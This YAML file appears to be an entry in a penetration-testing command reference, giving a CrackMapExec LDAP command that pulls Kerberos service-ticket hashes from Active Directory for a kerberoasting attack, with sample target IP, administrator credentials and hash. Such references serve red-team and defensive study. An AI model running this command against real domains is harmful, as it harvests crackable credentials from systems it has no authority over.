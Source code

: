 ```yaml
---
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will retrieve the Kerberos 5 TGS-REP etype 23 hash, which can be used to perform kerberoasting attack.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: Administrator

  	Password: Password123

  	Hash (-H):  807726fcf9f188adc26eeafd7dc16bb7

command: |
  crackmapexec ldap 10.10.10.1 -u Administrator -p 'Password123' --kerberoasting output.txt
items:
  - Username
  - Password
  - Hash
services:
  - SMB
attack_types:
  - Enumeration
  - Cracking
OS:
  - Linux
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
  - https://crackmapexec.popdocs.net/protocols/ldap-crackmapexec/kerberoasting
  - https://mayfly277.github.io/posts/GOADv2-pwning-part3/
---
```

